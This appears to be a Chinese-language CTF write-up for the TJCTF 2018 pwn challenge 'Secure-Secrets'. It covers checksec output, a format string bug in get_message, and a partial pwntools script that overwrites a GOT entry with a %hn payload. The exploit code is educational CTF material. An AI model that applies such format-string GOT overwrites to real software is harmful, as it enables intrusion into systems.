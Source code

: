 <br>

### Online-Banking(points: 100)



<br>

### Secure-Secrets(points: 110)

先看看开了哪些保护，发现除了地址随机化都有:-(

```shell
▶ checksec secure 
[*] '/2018TJCTF/pwn-Secure-Secrets110/secure'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

用ida看伪代码会发现`get_message`函数存在明显的格式化字符串漏洞

![](http://wx4.sinaimg.cn/mw690/0060lm7Tly1fu5s3ylrt9j30fm08p0tb.jpg)

并且`get_secret`函数可以直接拿到flag

![](http://wx2.sinaimg.cn/mw690/0060lm7Tly1fu5s4ijdwej309m08gq3c.jpg)

那么目的就很明确了，通过fsb的任意地址写将`exit`函数覆盖为`get_secret`的地址即可拿到flag:-)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
from sys import *
context.log_level = 'debug'

if argv[1] == 'l':
	io = process('./secure')
else:
	io = remote('problem1.tjctf.org', 8008)

elf = ELF('./secure')

def send_message(payload):
	
	io.sendlineafter('> ','666')
	
	io.sendlineafter('> ',payload)
	
	io.sendlineafter('> ','666')
	

def loop_it():
	
	main_addr = elf.symbols['main']
	exit_got = elf.got['exit']
#print "[+]exit_got = {}".format(hex(exit_got))
	payload = p32(elf.got['printf']) + '%' + str((main_addr&0xffff)-4) + 'c%35$hn'
	
	info(payload)
	send_message(payload)

```